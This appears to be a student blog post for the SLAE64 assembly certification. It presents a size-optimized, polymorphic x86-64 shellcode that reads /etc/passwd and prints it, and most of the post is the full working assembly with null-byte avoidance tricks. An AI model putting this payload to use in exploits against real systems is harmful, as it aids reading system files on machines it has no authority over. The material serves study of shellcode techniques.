 # Polymorphic version of Mr. Un1k0d3rs 'read /etc/passwd/' shellcode

Orig source:
```
http://shell-storm.org/shellcode/files/shellcode-878.php
```

My polymorphic version of the shellcode reduces the size by 7 bytes and keeps the same functionality as the original code.

## Changes
1. Usage of smaller instructions such as ```cdq``` to zero out rdx or ```push; pop``` instead of ```mov```
2. Optimized usage of syscall's return values
3. Reuse of nulled registers to avoid xoring others

## Asm
```
BITS 64
; Polymorphic version of Mr. Un1k0d3rs /etc/passwd read shellcode
; Orig Size: 82 bytes
; Polymorphic size: 75 bytes

global _start

section .text

_start:
xor rax, rax
mov rsi, rax ; null out rsi
cdq ; null out rdx
inc al
inc al ; al equals 2 (SYS_OPEN)
jmp _push_filename

_readfile:
; syscall open file
pop rdi ; pop path value
xor byte [rdi + 11], 0x42 ; the last char of the path is 0x42. Xoring it with 0x42 will create a nullbyte to mark its end.
syscall

; syscall read file
xchg rdi, rax ; put new fd in rdi
mov rax, rdx ; rdx is still zero and can be used to null out rax
mov dx, 0xfff; size to read
sub sp, dx ; Make some space on the stack
push rsp
pop rsi ; rsi points to buffer on stack
syscall

; syscall write to stdout
mov rdx, rax ; rax contains the number of read bytes
xor rdi, rdi
push rdi
pop rax ; avoid xor rax,rax
inc rdi ; rdi contains stdout
inc al ; SYS_write
syscall

; syscall exit
xor rax, rax
add al, 60
syscall

_push_filename:
call _readfile
path: db "/etc/passwdB"
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
